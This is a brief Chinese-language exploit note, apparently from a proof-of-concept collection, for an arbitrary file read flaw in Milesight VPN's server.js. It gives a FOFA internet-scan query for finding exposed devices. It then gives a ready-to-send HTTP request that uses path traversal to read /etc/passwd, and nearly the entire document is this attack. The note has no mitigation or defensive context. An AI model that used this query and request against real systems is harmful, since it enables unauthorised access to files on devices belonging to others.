 # Milesight VPN server.js 任意文件读取漏洞

## 网络测绘

fofa: app="Milesight-VPN" || "MilesightVPN"

## POC / EXP

```
GET /../etc/passwd HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded
```